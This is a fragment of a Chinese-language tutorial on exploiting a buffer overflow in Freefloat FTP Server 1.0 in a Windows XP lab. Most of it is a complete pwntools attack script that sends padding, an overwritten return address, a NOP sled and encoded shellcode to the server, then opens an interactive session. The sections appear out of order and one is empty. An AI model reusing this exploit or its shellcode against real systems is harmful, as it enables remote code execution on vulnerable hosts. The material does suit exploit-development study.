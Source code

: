 ## 0x05 Pwn

最终攻击代码

```bash
from pwn import *
p = remote("192.168.137.128", 21)
payload ='\x41'*251
eip='\x49\xf0\xdb\x77'
sled='\x90'*20
shellcode=("\xda\xc1\xbb\x1a\xf9\xbf\x94\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
"\x53\x83\xc2\x04\x31\x5a\x13\x03\x40\xea\x5d\x61\x88\xe4\x20"
"\x8a\x70\xf5\x44\x02\x95\xc4\x44\x70\xde\x77\x75\xf2\xb2\x7b"
"\xfe\x56\x26\x0f\x72\x7f\x49\xb8\x39\x59\x64\x39\x11\x99\xe7"
"\xb9\x68\xce\xc7\x80\xa2\x03\x06\xc4\xdf\xee\x5a\x9d\x94\x5d"
"\x4a\xaa\xe1\x5d\xe1\xe0\xe4\xe5\x16\xb0\x07\xc7\x89\xca\x51"
"\xc7\x28\x1e\xea\x4e\x32\x43\xd7\x19\xc9\xb7\xa3\x9b\x1b\x86"
"\x4c\x37\x62\x26\xbf\x49\xa3\x81\x20\x3c\xdd\xf1\xdd\x47\x1a"
"\x8b\x39\xcd\xb8\x2b\xc9\x75\x64\xcd\x1e\xe3\xef\xc1\xeb\x67"
"\xb7\xc5\xea\xa4\xcc\xf2\x67\x4b\x02\x73\x33\x68\x86\xdf\xe7"
"\x11\x9f\x85\x46\x2d\xff\x65\x36\x8b\x74\x8b\x23\xa6\xd7\xc4"
"\x80\x8b\xe7\x14\x8f\x9c\x94\x26\x10\x37\x32\x0b\xd9\x91\xc5"
"\x6c\xf0\x66\x59\x93\xfb\x96\x70\x50\xaf\xc6\xea\x71\xd0\x8c"
"\xea\x7e\x05\x38\xe2\xd9\xf6\x5f\x0f\x99\xa6\xdf\xbf\x72\xad"
"\xef\xe0\x63\xce\x25\x89\x0c\x33\xc6\xa4\x90\xba\x20\xac\x38"
"\xeb\xfb\x58\xfb\xc8\x33\xff\x04\x3b\x6c\x97\x4d\x2d\xab\x98"
"\x4d\x7b\x9b\x0e\xc6\x68\x1f\x2f\xd9\xa4\x37\x38\x4e\x32\xd6"
"\x0b\xee\x43\xf3\xfb\x93\xd6\x98\xfb\xda\xca\x36\xac\x8b\x3d"
"\x4f\x38\x26\x67\xf9\x5e\xbb\xf1\xc2\xda\x60\xc2\xcd\xe3\xe5"
"\x7e\xea\xf3\x33\x7e\xb6\xa7\xeb\x29\x60\x11\x4a\x80\xc2\xcb"
"\x04\x7f\x8d\x9b\xd1\xb3\x0e\xdd\xdd\x99\xf8\x01\x6f\x74\xbd"
"\x3e\x40\x10\x49\x47\xbc\x80\xb6\x92\x04\xb0\xfc\xbe\x2d\x59"
"\x59\x2b\x6c\x04\x5a\x86\xb3\x31\xd9\x22\x4c\xc6\xc1\x47\x49"
"\x82\x45\xb4\x23\x9b\x23\xba\x90\x9c\x61")
last=payload+eip+sled+shellcode
p.sendline(last)
p.interactive()
```

攻击效果如图：

!https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f244a500-0ae1-45ec-94d2-38d0ab05b287/Untitled.png

## 0x06 疑问

## 0x00 基本介绍

此处以Freefloat FTP Server1.0为例

- 测试软件：Freefloat FTP Server1.0
- 虚拟机：Windows XP Pro Sp3
- 工具：Immunity Debugger、Pwntools、Metasploit
